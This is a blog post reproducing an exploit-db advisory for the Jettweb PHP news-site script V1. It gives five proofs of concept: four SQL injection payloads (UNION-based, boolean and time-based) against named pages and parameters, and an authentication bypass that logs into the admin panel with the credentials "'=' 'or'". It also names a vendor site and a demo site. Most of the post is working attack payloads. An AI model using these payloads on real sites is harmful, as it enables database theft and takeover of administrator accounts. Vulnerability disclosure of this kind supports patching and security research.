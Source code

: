 ```yaml
---
layout:     post
title:      "Jettweb Haber Sitesi V1 - Multiple Vulnerabilities"
date:       2019-03-25 12:36
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Jettweb PHP Hazır Haber Sitesi Scripti V1 - Multiple Vulnerabilities
# Date: 23.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://jettweb.net/u-5-php-hazir-haber-sitesi-scripti-v1.html
# Demo Site: http://haberv1.proemlaksitesi.net
# Version: V1
# Tested on: Kali Linux
# CVE: N/A

----- PoC 1: SQLi -----

Request: http://localhost/[PATH]/gallery.php?gallery_id=1
Vulnerable Parameter: gallery_id (GET)
Payload: gallery_id=1' UNION ALL SELECT
NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a786b71,0x63565549564d5a424e57746d6d62614e4f6e4a7559666a744d50557776636e4e6a6952504d494444,0x71626a7a71)--
UsCA


----- PoC 2: SQLi -----

Request: http://localhost/[PATH]/haberarsiv.php?cid=1
Vulnerable Parameter: cid (POST)
Payload: cid=1' UNION ALL SELECT
CONCAT(0x7162707a71,0x506a594d7a4f6c64674249466d746d6c5751486e786745667369685263624c6445654f665a4f4146,0x7162706a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
ihPG

----- PoC 3: SQLi -----

Request: http://localhost/[PATH]/arama.php?T1=btnVote=G%C3%B6nder&ara=1
Vulnerable Parameter: poll (POST)
Payload:
1&option=2&poll=-1'%20OR%203*2*1=6%20AND%20000889=000889%20--%20&stage=

----- PoC 4: SQLi -----

Request: http://localhost/[PATH]/uyelik.php
Vulnerable Parameter: option (POST)
Payload:
btnVote=G%C3%B6nder&option=0'XOR(if(now()=sysdate()%2Csleep(0)%2C0))XOR'Z&poll=1&stage=2


----- PoC 5: Authentication Bypass -----

Administration Panel: http://localhost/[PATH]/yonetim/admingiris.php
Username: '=' 'or'
Password: '=' 'or'
